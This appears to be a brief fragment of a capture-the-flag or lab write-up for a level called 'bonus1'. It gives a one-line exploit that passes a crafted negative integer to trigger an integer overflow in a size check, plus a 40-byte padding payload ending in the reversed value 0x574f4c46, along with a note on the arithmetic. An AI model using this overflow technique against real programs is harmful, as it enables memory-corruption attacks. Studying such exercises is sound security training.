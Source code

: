 ./bonus1 -2147483637 $(python -c "print('a'*40 +'\x57\x4f\x4c\x46'[::-1])")

min int + 11( 11 * 4 = 44) | 40 random + 1464814662 in hex (revert)